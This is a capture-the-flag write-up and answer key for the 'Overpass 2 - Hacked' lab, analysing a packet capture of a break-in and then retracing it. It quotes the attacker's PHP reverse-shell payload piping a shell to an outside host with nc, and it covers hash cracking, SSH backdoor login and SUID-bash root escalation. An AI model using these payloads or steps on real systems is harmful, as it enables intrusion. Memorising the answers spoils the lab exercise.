# Overpass 2 - Hacked

- [Overpass 2 - Hacked](#overpass-2---hacked)
  - [Overview](#overview)
  - [Answer List](#answer-list)
    - [Task 1](#task-1)
    - [Task 2](#task-2)
    - [Task 3](#task-3)
  - [Walkthrough](#walkthrough)
    - [Task 1](#task-1-1)
    - [Task 2](#task-2-1)
    - [Task 3](#task-3-1)
    - [Initial Access](#initial-access)
    - [Root Access](#root-access)
  - [Findings and Recommendations](#findings-and-recommendations)

## Overview
Answer list as well as the walkthrough for each question.

## Answer List
### Task 1
**Q1: What was the URL of the page they used to upload a reverse shell?**
> /development/

**Q2: What payload did the attacker use to gain access?**
> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

**Q3: What password did the attacker use to privesc?**
> whenevernoteartinstant

**Q4: How did the attacker establish persistence?**
> https://github.com/NinjaJc01/ssh-backdoor

**Q5: Using the fasttrack wordlist, how many of the system passwords were crackable?**
> 4

### Task 2
**Q1: What's the default hash for the backdoor?**
> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

**Q2: What's the hardcoded salt for the backdoor?**
> 1c362db832f3f864c8c2fe05f2002a05

**Q3: What was the hash that the attacker used? - go back to the PCAP for this!**
> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

**Q4: Crack the hash using rockyou and a cracking tool of your choice. What's the password?**
> november16

### Task 3
**Q1: The attacker defaced the website. What message did they leave as a heading?**
> H4ck3d by CooctusClan

*\<Remaining questions in this task are for the flags\>*

## Walkthrough
### Task 1
**Q1: What was the URL of the page they used to upload a reverse shell?**
> /development/

Use the display filter: `http`.

Request to `/development/upload.php` will be the only POST.

 <br>

---
<br>

**Q2: What payload did the attacker use to gain access?**
> <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

Use the display filter: `tcp.stream == 1`.

Right-click on any of the packets, click `Follow -> HTTP Stream`.

Payload is found in the POST request.

 <br>

---
<br>

**Q3: What password did the attacker use to privesc?**
> whenevernoteartinstant

Use the display filter: `tcp.port == 4242`.

Right-click on any of the packets, click `Follow -> TCP Stream`.

 <br>

---
<br>

**Q4: How did the attacker establish persistence?**
> https://github.com/NinjaJc01/ssh-backdoor

Use the same TCP stream from Q3 with the display filter: `tcp.stream == 3`.

Search for *git clone* to find the URL.

 <br>

---
<br>

**Q5: Using the fasttrack wordlist, how many of the system passwords were crackable?**
> 4

Use the same TCP stream from Q3 with the display filter: `tcp.stream == 3`.

Get the password hashes from `/etc/shadow` and save them to a text file in the format `username:hash`.

Crack with John the Ripper.
```
john --wordlist=/usr/share/wordlists/fasttrack.txt pcap_shadow_hashes
```

 <br>

---

### Task 2
**Q1: What's the default hash for the backdoor?**
> bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

The hash is located at line 19 in `main.go`.

 <br>

---
<br>

**Q2: What's the hardcoded salt for the backdoor?**
> 1c362db832f3f864c8c2fe05f2002a05

The salt is located at line 108 in `main.go`.

 <br>

---
<br>

**Q3: What was the hash that the attacker used? - go back to the PCAP for this!**
> 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

Use the display filter `tcp.stream == 3`.

Follow and inspect the TCP stream.

Search for *./backdoor -a* to find the hash.

 <br>

---
<br>

**Q4: Crack the hash using rockyou and a cracking tool of your choice. What's the password?**
> november16

Identify the hash with hash-identifier.

 <br>

Let's go with SHA-512.

Lookup the formats accepted by John the Ripper for SHA-512 hashes. This example will use `dynamic_82`.

 <br>

Save the hash and salt in the format `hash$salt` to a text file. Note that `$` is the separator and not `.`

 <br>

Crack the password.
```
john --format=dynamic_82 --wordlist=/usr/share/wordlists/rockyou.txt pcap_ssh_backdoor_hash
```
 <br>

---

### Task 3
**Q1: The attacker defaced the website. What message did they leave as a heading?**
> H4ck3d by CooctusClan

Go to http://10.10.50.129.

 <br>

---

### Initial Access
SSH to port `2222` and login as `james` with the password `november16`. Specify the option `HostKeyAlgorithms=+ssh-rsa` if the connection fails the client rejecting an RSA host key.
```
ssh james@10.10.50.129 -p 2222 -o HostKeyAlgorithms=+ssh-rsa
```

 <br>

The flag is found at `/home/james/user.txt`.

### Root Access
Go to `/home/james/` and notice the binary named `.suid_bash` with SUID and SGID root permissions.

 <br>

Running the binary with the `--help` flag shows it is bash. :O

 <br>

Run it without any flags and our permissions remain as `james`. However, running with the [`-p` flag](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/euid-ruid-suid) keeps the root permissions, giving us a root shell.

 <br>

The flag is found at `/root/root.txt`.

## Findings and Recommendations
The remediation process is already in progress:
- The web page used to gain initial access has been removed
- User passwords have been changed

However, the following items should be removed now that the flags have been recovered:
- SSH backdoor used for persistence
- SUID copy of bash used for privilege escalation